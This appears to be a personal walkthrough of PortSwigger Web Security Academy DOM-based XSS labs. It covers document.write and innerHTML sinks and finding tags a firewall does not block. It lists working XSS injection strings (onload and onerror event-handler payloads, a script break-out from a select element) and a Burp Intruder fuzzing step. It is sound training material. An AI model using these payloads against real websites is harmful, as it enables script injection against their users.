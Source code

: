 All Labs: https://portswigger.net/web-security/cross-site-scripting/dom-based

## Lab 1: [DOM XSS in document.write sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink)
- Search for Any Random String > Inspect in Firefox (better) > Find the Searched String

![image](https://github.com/user-attachments/assets/1e9f6014-208e-4b8f-a1ce-db9fa2c1e7bf)

- Inspect the query > the Query is directly passing by Document.write() to DOM via <img> tag.
- Injection: `" onload="alert("qwerty")">` in search section
- <img src="/resources/images/tracker.gif?searchTerms=`" onload="alert("qwerty")">`
---
OR
---
- Injection: `">< svg onload="alert("qwerty")>` in search section
- <img src="/resources/images/tracker.gif?searchTerms=`">< svg onload="alert("qwerty")>`

## Lab 2: [DOM XSS in document.write sink using source location.search inside a select element](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element)
- Analyse the JS code, `source location.search` updating the DOM: ![image](https://github.com/user-attachments/assets/b66c8c00-f07b-416e-8d3c-5fab24d55c78)
- Insert the storedId random value in URL query & observe the DOM: ![image](https://github.com/user-attachments/assets/2d92d551-25ba-478b-a78d-8144a66e0b8e)
- Inserted value will show up in app functionality: ![image](https://github.com/user-attachments/assets/abfc1427-ffe8-4296-a333-f2b5fa5c65f8)
- Give storeId `"><script>alert(123)</script></select>` ![image](https://github.com/user-attachments/assets/8d729fdf-619d-46f7-8544-db9f982a5edc)
- The innerHTML sink doesn't accept script elements on any modern browser, nor will svg onload events fire.
- This means you will need to use alternative elements like `img or iframe` Event handlers such as onload and onerror can be used in conjunction with these elements.
- For example: `element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'`

## Lab 3: [DOM XSS in innerHTML sink using source location.search](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)
- Check innerHTML, Analyse the JS code
- ![image](https://github.com/user-attachments/assets/dd879d32-3a94-481e-87ba-67adf72e6780)
- `<img src=1 onerror=alert(123)>` will the break the Search function.

# Lab 4: 
-  jQuery's attr() function can change the attributes of DOM elements.

# Lab 5: `Lab: Reflected XSS into HTML context with most tags and attributes blocked`
- Most Tags & attributes are filtered by the firewalls.
- Find out the which tag & attributes is not filtered, Capture the search request > send to Intruder > Start Attack with all tags, attributes as payload simple list.




